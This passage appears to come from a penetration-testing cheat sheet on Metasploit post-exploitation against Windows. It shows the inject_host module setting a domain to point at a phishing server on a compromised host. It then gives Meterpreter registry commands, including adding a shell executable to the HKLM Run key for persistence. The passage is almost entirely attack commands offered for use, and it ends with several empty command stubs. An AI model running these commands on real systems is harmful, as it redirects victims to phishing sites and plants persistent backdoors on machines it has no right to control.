 ```
msf > use post/windows/manage/inject_host

msf post(windows/manage/inject_host) > options

Module options (post/windows/manage/inject_host):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   DOMAIN                    yes       Domain name for host file manipulation.
   IP                        yes       IP address to point domain name to.
   SESSION                   yes       The session to run this module on

msf post(windows/manage/inject_host) > set domain <domain_name>

msf post(windows/manage/inject_host) > set ip <phishing_server>

msf post(windows/manage/inject_host) > set session <session_id>

msf post(windows/manage/inject_host) > run
```

##### 2.1.3.4 - Registry

* **Help Menu**

```
meterpreter > reg -h
Usage: reg [command] [options]
Interact with the target machine's registry.

OPTIONS:

    -d   The data to store in the registry value.
    -h   Help menu.
    -k   The registry key path (E.g. HKLM\Software\Foo).
    -r   The remote machine name to connect to (with current process credentials
    -t   The registry value type (E.g. REG_SZ).
    -v   The registry value name (E.g. Stuff).
    -w   Set KEY_WOW64 flag, valid values [32|64].
COMMANDS:

    enumkey     Enumerate the supplied registry key [-k <key>]
    createkey   Create the supplied registry key  [-k <key>]
    deletekey   Delete the supplied registry key  [-k <key>]
    queryclass  Queries the class of the supplied key [-k <key>]
    setval      Set a registry value [-k <key> -v <val> -d <data>]
    deleteval   Delete the supplied registry value [-k <key> -v <val>]
    queryval    Queries the data contents of a value [-k <key> -v <val>]
```

* **Basic Commands**

```
meterpreter > reg enumkey -k hklm\\software\\microsoft\\currentversion\\run

meterpreter > reg setval -k hklm\\software\\microsoft\\windows\\currentversion\\run -v <value> -t REG_SZ -d 'C:\path\to\shell.exe'

meterpreter > reg queryval -k hklm\\software\\microsoft\\currentversion\\run -v <value>

meterpreter > reg

meterpreter > reg

meterpreter > reg
```